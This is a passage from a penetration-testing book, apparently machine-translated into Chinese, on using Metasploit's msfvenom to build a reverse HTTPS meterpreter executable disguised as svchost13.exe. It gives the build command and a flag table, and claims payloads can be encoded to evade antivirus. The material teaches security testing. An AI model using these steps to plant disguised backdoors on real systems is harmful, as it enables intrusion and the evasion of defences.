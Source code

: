 **警告！**

真正的攻击者会将 Ncat 的名称更改为文件系统中更模糊、更难以识别的名称。小心两个`calc.exe`或 `notepad.exe`生活在你的系统中。一个在一个陌生的地方很可能是 Ncat 或其他类型的开发，就像我们将要建立的下一个。

## 用 Metasploit 打电话回家

嗯，那是老式的方法。现在，让我们使用 Metasploit 的工具做同样的事情。我们将在我们邪恶的服务器`//rogue3`上加载 Metasploit，让我们的受害者机器连接到该机器上的仪表外壳。我们将从早期的内部黑客中构建并上传此漏洞。除了**msfconsole**之外，我们还将使用 Metasploit 工具包中的其他一些工具。Metasploit 附带一个独立的应用程序，用于构建自定义漏洞利用和外壳代码。此工具名为**msfvenom**，我们将使用它构建一个漏洞。完全使用 msfvenom 本身可以填满一整章，超出了本书的范围；因此，在这里，我们将构建一个反向 http 攻击，使用最常见的标志生成可执行文件。我们将通过运行以下命令来构建该漏洞：

```
msfvenom -a x86 –platform windows -p windows/meterpreter/reverse_https -f exe -o svchost13.exe

```

**Msfvenom**是一款功能强大且可配置的工具。它有能力建立自定义漏洞攻击，将绕过任何反病毒软件。反病毒软件的工作原理是查看文件的签名。Msfvenom 能够以防病毒软件无法检测到的方式对漏洞进行编码。这是一种将漏洞隐藏为另一个常见可执行文件（如记事本）的情况。Msfvenom 可以向可执行文件添加 NOPs 或 null 代码，使其与原始文件大小相同。很可怕，不是吗？

旗帜列表如下：

<colgroup><col> <col> <col></colgroup> 
| 

用法：/opt/metasploit/apps/pro/msf3/msfvenom[选项]``

 |   |   |
| --- | --- | --- |
| **选项：** | **多头期权** | **变量** |
| `-p` | `--payload` | `<payload>` |
| `-l` | `--list` | `[module_type]` |
| `-n` | `--nopsled` | `<length>` |
| `-f` | `--format` | `<format>` |
| `-e` | `--encoder` |   |
| `-a` | `--arch` | `<architecture>` |
|   | `--platform` | `<platform>` |
| `-s` | `--space` | `<length>` |
| `-b` | `--bad-chars` | `<list>` |
| `-i` | `--iterations` | `<count>` |
| `-c` | `--add-code` | `<path>` |
| `-x` | `--template` | `<path>` |
| `-k` | `--keep` |   |
| `-o` | `--options` |   |
| `-h` | `--help` |   |
|   | `--help-formats` |   |

